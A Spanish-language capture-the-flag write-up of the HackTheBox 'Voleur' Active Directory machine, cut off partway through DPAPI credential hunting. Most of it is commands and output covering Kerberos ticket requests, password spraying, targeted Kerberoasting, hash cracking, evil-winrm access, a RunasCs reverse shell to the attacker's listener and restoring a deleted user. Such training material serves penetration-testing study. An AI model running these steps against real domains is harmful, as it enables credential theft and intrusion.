



# Resolución maquina voleur

**Autor:** PepeMaquina  
**Fecha:** 07 de noviembre de 2025  
**Dificultad:** Medio  
**Sistema Operativo:** Windows  
**Tags:** kerberos, Bloodhound, Pivoting.

---
## Imagen de la Máquina

*Imagen: voleur.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.76 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,2222,3268,3269,5985,9389,49664,49672,51466,64209,65405,65407 10.10.11.76 -oN targeted
~~~
### Enumeración de Servicios

~~~bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-07 00:58:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51466/tcp open  msrpc         Microsoft Windows RPC
64209/tcp open  msrpc         Microsoft Windows RPC
65405/tcp open  msrpc         Microsoft Windows RPC
65407/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=10/6%Time=68E3F543%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-10-07T00:59:29
|_  start_date: N/A
|_clock-skew: 8h00m07s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
~~~
### Enumeración de nombre del dominio
En esta ocasión se nos otorgo credenciales para poder ingresar o realizar la enumeración del dominio, estas son "ryan.naylor / HollowOct31Nyt".
~~~ bash
 sudo netexec smb 10.10.11.76 -u users -p pass 
SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False)
SMB         10.10.11.76     445    10.10.11.76      [-] 10.10.11.76\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED
~~~
Lastimosamente en este momento no se puede realizar enumeración alguna, cuando ocurre esto, normalmente recurro a sacar credenciales mediante kerberos, pero antes siempre se debe ajustar la sincronizacion de horas con el servidor, ya que kerberos es muy sensible con ello.
~~~bash
sudo ntpdate -u 10.10.11.76 
2025-11-07 21:59:10.817644 (-0500) +28801.154350 +/- 0.068831 10.10.11.76 s1 no-leap
CLOCK: time stepped by 28801.154350
~~~
Adicionalmente, tambien se debe de colocar o agregar el nombre de dominio directamente en el archivo "/etc/hosts", si bien no se lo puede obtener directamente con netexec, si se lo pudo observar al inicio con la enumeración de nmap.
~~~bash
cat /etc/hosts
127.0.0.1       localhost
10.10.11.76 voleur.htb dc.voleur.htb dc
~~~
Por ultimo, siempre que utilizo kerberos tambien se configura el archivo "/etc/krb5.conf"
~~~bash 
cat /etc/krb5.conf  
[libdefaults]
        default_realm = VOLEUR.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_lookup_kdc = false
        dns_lookup_realm = false

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        VOLEUR.HTB = {
                kdc = 10.10.11.76
                kdc = kerberos-1.mit.edu
                kdc = kerberos-2.mit.edu:88
                admin_server = 10.10.11.76
                default_domain = mit.edu
        }
		<SNIP>

[domain_realm]
        <SNIP>
        .voleur.htb = VOLEUR.HTB
        voleur.htb = VOLEUR.HTB
~~~
Ahora si se puede sacar los tickets de kerberos.
~~~bash
impacket-getTGT voleur.htb/ryan.naylor:HollowOct31Nyt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ryan.naylor.ccache
~~~
Realizado ello, se exporta en cache para impersonar a dicho usuario
~~~bash
export KRB5CCNAME=$(pwd)/ryan.naylor.ccache
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/voleur/content]
└─$ klist                               
Ticket cache: FILE:/home/kali/htb/voleur/content/ryan.naylor.ccache
Default principal: ryan.naylor@VOLEUR.HTB

Valid starting       Expires              Service principal
11/07/2025 21:59:20  11/08/2025 07:59:20  krbtgt/VOLEUR.HTB@VOLEUR.HTB
        renew until 11/08/2025 21:59:19
~~~

### Enumeración smb
Con ello, lo primero que hare es ver los recursos compartidos que presenta.
~~~ bash
sudo netexec smb dc.voleur.htb -u 'ryan.naylor' -p 'HollowOct31Nyt' -k --shares
[sudo] password for kali: 
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [*] Enumerated shares
SMB         dc.voleur.htb   445    dc               Share           Permissions     Remark
SMB         dc.voleur.htb   445    dc               -----           -----------     ------
SMB         dc.voleur.htb   445    dc               ADMIN$                          Remote Admin
SMB         dc.voleur.htb   445    dc               C$                              Default share
SMB         dc.voleur.htb   445    dc               Finance                         
SMB         dc.voleur.htb   445    dc               HR                              
SMB         dc.voleur.htb   445    dc               IPC$            READ            Remote IPC
SMB         dc.voleur.htb   445    dc               IT              READ            
SMB         dc.voleur.htb   445    dc               NETLOGON        READ            Logon server share 
SMB         dc.voleur.htb   445    dc               SYSVOL          READ            Logon server share 
~~~
Como se puede ver, se tiene acceso a una carpeta "IT" que puede ser util, asi que siempre se la inspecciona.
~~~bash
krb5ccname=ryan.naylor.ccache smbclient.py -k dc.voleur.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
Finance
HR
IPC$
IT
NETLOGON
SYSVOL
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 First-Line Support
# cd First-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-      16896  Thu May 29 18:23:36 2025 Access_Review.xlsx
# get Access_Review.xlsx
~~~
Se puede ver que tiene acceso a un archivo "Access_Review.xlsx" asi que se lo descarga.
Al intentar abrirlo este pide una contraseña, por lo que se utiliza la herramienta office2john para sacar su hash y ver si se puede sacar de algun diccionario de contraseñas.
~~~bash
office2john Access_Review.xlsx > hash_xlsx 

sudo john hash_xlsx --show                                            
Access_Review.xlsx:football1
~~~
En esta ocación, ya tenia la contraseña descifrada asi que solo la muestro de su base de datos.
Colocando la contraseña para ingresar al archivo, se puede ver que esta tiene unos nombres de usuarios, algunos servicios y algunas notas asociadas.

En esta nota se ven un par de contraseñas, un usuario que al parecer esta eliminado y una lista de permisos que tiene cada usuario, por ende lo primero que se hacer es almacenar todas las contraseñas en un archivo y probalas con todos los usuarios.
~~~bash
sudo netexec smb dc.voleur.htb -u users -p pass -k --continue-on-success           
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Todd.Wolfe:HollowOct31Nyt KDC_ERR_C_PRINCIPAL_UNKNOWN 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_ldap:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Todd.Wolfe:NightT1meP1dg3on14 KDC_ERR_C_PRINCIPAL_UNKNOWN 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_ldap:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Todd.Wolfe:M1XyC9pW7qT5Vn KDC_ERR_C_PRINCIPAL_UNKNOWN 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Todd.Wolfe:N5pXyW1VqM7CZ8 KDC_ERR_C_PRINCIPAL_UNKNOWN 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\svc_iis:N5pXyW1VqM7CZ8 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED
~~~
Se ve que esto coincide con dos usuarios: "svc_ldap" y "svc_iis".

### Enumeración con bloodhound
Como no se puede hacer gran cosa con dichos usuarios, es preferible realizar la enumeracion con bloodhound.
~~~bash
bloodhound-python -k -no-pass -u 'ryan.naylor' -c All -d voleur.htb -ns 10.10.11.76 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: voleur.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.voleur.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.voleur.htb
INFO: Found 12 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.voleur.htb
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 00M 22S
INFO: Compressing output into 20251107221532_bloodhound.zip
~~~
Abriendo el archivo con bloodhound, se tiene una perspectiva de que se puede hacer con dichos usuarios, el que puede hacer mas cosas seria "svc_ldap" ya que puede hacer un ataque de kerberoasting sobre "svc_winrm" y tambien lleva asociado un grupo interesante.

Este ultimo parece que puede restaurar usuarios eliminados, y como recordamos en el documento que vimos se tiene un usuario que esta eliminado (no deshabilitado), puede ser bueno restaurarlo para ver si contiene alguna información interesante de que aprovecharse.

Primero se aprovechara el permiso sobre "svc_winrm" para obtener su hash y ver si es descifrable.
~~~bash
python3 ../exploits/targetedKerberoast/targetedKerberoast.py -v -k --dc-host dc.voleur.htb -d 'voleur.htb' -u 'svc_ldap' -p 'M1XyC9pW7qT5Vn' 
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (lacey.miller)
[+] Printing hash for (lacey.miller)
$krb5tgs$23$*lacey.miller$VOLEUR.HTB$voleur.htb/lacey.miller*$da3<SNIP>6ea9
[VERBOSE] SPN removed successfully for (lacey.miller)
[VERBOSE] SPN added successfully for (svc_winrm)
[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$1ac<SNIP>30c8
[VERBOSE] SPN removed successfully for (svc_winrm)
~~~
Como se puede ver, se tiene dos hashes, pero intentando descifrarlos, solo uno es descifrable.
~~~bash
 sudo john hash_svc_winrm --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
AFi<SNIP>afi (?)     
1g 0:00:00:07 DONE (2025-11-07 22:54) 0.1371g/s 1573Kp/s 1573Kc/s 1573KC/s AHANACK6978012..AFITA4162
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~
Aprivechando esto, se captura el ticket e intenta iniciar sesion por winrm
~~~bash
┌──(kali㉿kali)-[~/htb/voleur/content]
└─$ impacket-getTGT -dc-ip 10.10.11.76 voleur.htb/svc_winrm:AFi<SNIP>afi
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_winrm.ccache
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/voleur/content]
└─$ export KRB5CCNAME=$(pwd)/svc_winrm.ccache
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/voleur/content]
└─$ evil-winrm -i dc.voleur.htb -r voleur.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_winrm\Documents>
~~~
Como se pudo ver, efectivamente se tiene acceso por winrm

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso winrm mediante el usuario "svc_winrm" se puede ver la bandera.
~~~bash
*Evil-WinRM* PS C:\Users\svc_winrm> tree /f
Folder PATH listing
Volume serial number is A5C3-6454
C:.
+---3D Objects
+---Contacts
+---Desktop
¦       Microsoft Edge.lnk
¦       user.txt
¦
+---Documents
¦   +---RunasCs
¦           RunasCs.exe
¦           RunasCs_net2.exe
¦
+---Downloads
+---Favorites
¦   ¦   Bing.url
¦   ¦
¦   +---Links
+---Links
¦       Desktop.lnk
¦       Downloads.lnk
¦
+---Music
+---Pictures
+---Saved Games
+---Searches
+---Videos
*Evil-WinRM* PS C:\Users\svc_winrm> cd desktop
*Evil-WinRM* PS C:\Users\svc_winrm\desktop> type user.txt
<Encuentre su propia user flag>
~~~
***NOTA: Algo que  veo y se puede vulnerar, es que se ve "Microsoft Edge.lnk" en desktop, en la vida real puede que aparezca como algo normal pero en maquinas como hackthebox no es normal verlas, asi que esto se puede explotar con un dpapi si encontramos credenciales***

---
## Escalada de Privilegios
### Salto al usuario Tood.Wolfe
Parece que este usuario no tiene muchos permisos consigo, por lo que recurrire a mi primera idea, restaurar al usuario "Todd.Wolfe", pero para ello necesito una sesion como el usuario "svc_ldap", pero este no pertenece al grupo "Remote Management ", por lo que recurrire a la herramienta "runascs" para enviarme una reverse shell y poder ingresar como el usuario "svc_ldap"
Primero abro un escucha con mi maquina atacante.
~~~bash
rlwrap -cAr nc -nvlp 443                                                                                                                       
listening on [any] 443 ...
~~~
Y desde mi sesion winrm envio una reverse.
~~~bash
*Evil-WinRM* PS C:\Users\svc_winrm\documents\runascs> .\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell -r 10.10.14.183:443
~~~
Recibiendo asi una sesion como el usuario "svc_ldap"
~~~bash
rlwrap -cAr nc -nvlp 443                                                                                                                       
listening on [any] 443 ...
connect to [10.10.14.183] from (UNKNOWN) [10.10.11.76] 58926
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32>
~~~
En este punto lo que nos interesa es ver si se tiene algun objeto eliminado recientemente.
~~~bash

PS C:\Windows\system32> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects

Deleted           : True
DistinguishedName : CN=Deleted Objects,DC=voleur,DC=htb
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 587cd8b4-6f6a-46d9-8bd4-8fb31d2e18d8

Deleted           : True
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
Name              : Todd Wolfe
                    DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
~~~
Efectivamente se encuentra el usuario "tood.wolfe", asi que se lo puede restaurar.
~~~bash
PS C:\Windows\system32> Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db
~~~
Ahora si se puede probar si el usuario existe.
~~~bash
sudo netexec smb dc.voleur.htb -u users -p pass -k --continue-on-success
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Todd.Wolfe:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_ldap:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:HollowOct31Nyt KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\Todd.Wolfe:NightT1meP1dg3on14 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_ldap:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:NightT1meP1dg3on14 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_iis:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Marie.Bryant:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Lacey.Miller:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\Jeremy.Combs:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_backup:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\svc_iis:N5pXyW1VqM7CZ8 
SMB         dc.voleur.htb   445    dc               [-] voleur.htb\svc_winrm:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED
~~~
Efectivamente, se muestra que ahora el usuario si existe,

### Explotación credenciales dpapi
por lo que si revisamos el archivo del principio, este usuario pertenece al "Second-Line Support Technician", por lo que se me ocurren dos cosas:
1. Revisar si en su recurso smb tiene algo relacionado a ese grupo.
2. Acceder a una sesion de powershell con runascs para este usuario.
Entonces eligiendo la primera opción, se ve una ruta de escritorio comun y corriente. (No olvidarse de antes sacar su ticket TGT como enseñe mas antes).
~~~bash
KRB5CCNAME=Todd.Wolfe.ccache smbclient.py -k dc.voleur.htb 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:03 2025 Second-Line Support
# cd Second-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:03 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 Archived Users
# cd Archived Users
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:03 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:16 2025 todd.wolfe
# cd todd.wolfe
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:16 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:06 2025 3D Objects
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 AppData
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Contacts
drw-rw-rw-          0  Thu Jan 30 09:28:50 2025 Desktop
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Documents
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Downloads
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Favorites
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Links
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Music
-rw-rw-rw-      65536  Wed Jan 29 10:13:06 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TM.blf
-rw-rw-rw-     524288  Wed Jan 29 07:53:07 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000001.regtrans-ms
-rw-rw-rw-     524288  Wed Jan 29 07:53:07 2025 NTUSER.DAT{c76cbcdb-afc9-11eb-8234-000d3aa6d50e}.TMContainer00000000000000000002.regtrans-ms
-rw-rw-rw-         20  Wed Jan 29 07:53:07 2025 ntuser.ini
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Pictures
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Saved Games
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Searches
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Videos
~~~
Asi que enumerando directorios comunes, no se obtiene gran cosa, pero recordando que antes en el usuario "svc_winrm" se vio un "Microsoft Edge.lnk", puede que existen credenciales para aprovechar dpapi.
~~~bash
# cd appdata
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:16 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Local
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 LocalLow
